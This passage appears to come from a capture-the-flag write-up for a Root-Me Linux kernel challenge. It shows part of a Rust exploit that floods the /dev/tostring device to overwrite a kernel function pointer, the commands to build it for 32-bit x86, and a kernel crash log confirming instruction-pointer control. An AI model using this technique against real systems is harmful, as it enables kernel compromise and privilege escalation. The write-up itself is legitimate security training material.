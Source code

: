 ```Rust
        Err(e) => {
            eprintln!("Failed to open /dev/tostring: {}", e);
            std::process::exit(1);
        }
    };

    // grow stack
    for _ in 0..TOSTRING_STACK_SIZE {
        dev.write_all(&intval.to_le_bytes()).expect("Failed to write to /dev/tostring to override stack");
    }

    // overwrite `tostring_read`
    dev.write_all(&tostring_read_override_ea.to_le_bytes()).expect("Failed to write to /dev/tostring to override function pointer");

    let mut ret = [0u8; size_of::<usize>()];
    dev.read_exact(&mut ret).expect("Failed to read from /dev/tostring"); // <-- should make kernel crash
    println!("result: {:#x}", usize::from_le_bytes(ret));
}
```

The target runs on a 32bits x86 processor, meaning we have to compile the binary for this target:
```bash
mkdir ch1_exploit && cd ch1_exploit
cargo init .
vi src/main.rs # paste code above and type :x! to exit

# add the x86 static target
rustup target add i686-unknown-linux-musl

# build the binary
cargo build --target i686-unknown-linux-musl
```

Then, uploading the binary to the target and running it gives us the following crash. We sucessfully triggered the bug ! (notice the `IP = 0x41414141` message indicating kernel tried to branch to the address we injected)


```bash
Root-Me user@linkern-chall:~$ ./exploit
[  300.010914] BUG: unable to handle kernel paging request at 41414141
[  300.019794] IP: 0x41414141
[  300.023392] *pde = 00000000
[  300.023394]
[  300.029519] Oops: 0000 [#1] SMP
[  300.032706] Modules linked in: basic1_ch1(O)
[  300.037291] CPU: 0 PID: 1050 Comm: exploit Tainted: G           O    4.10.3 #4
[  300.044501] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.2-1ubuntu1 04/01/2014
[  300.054875] task: c2bbabc0 task.stack: c2900000
[  300.061686] EIP: 0x41414141
[  300.066930] EFLAGS: 00010296 CPU: 0
[  300.073703] EAX: c2ac4540 EBX: c2ac4540 ECX: 00000004 EDX: bfa09fe8
[  300.084471] ESI: bfa09fe8 EDI: 00000004 EBP: c2901eec ESP: c2901ed8
[  300.095701]  DS: 007b ES: 007b FS: 00d8 GS: 0033 SS: 0068
[  300.105140] CR0: 80050033 CR2: 41414141 CR3: 0290a000 CR4: 00000690
[  300.116913] Call Trace:
[  300.121776]  ? tostring_read+0x2d/0x40 [basic1_ch1]
[  300.130786]  ? tostring_open+0x20/0x20 [basic1_ch1]
[  300.140015]  __vfs_read+0x24/0x110
[  300.146076]  ? rw_verify_area+0x5c/0x120
[  300.153662]  vfs_read+0x76/0x140
```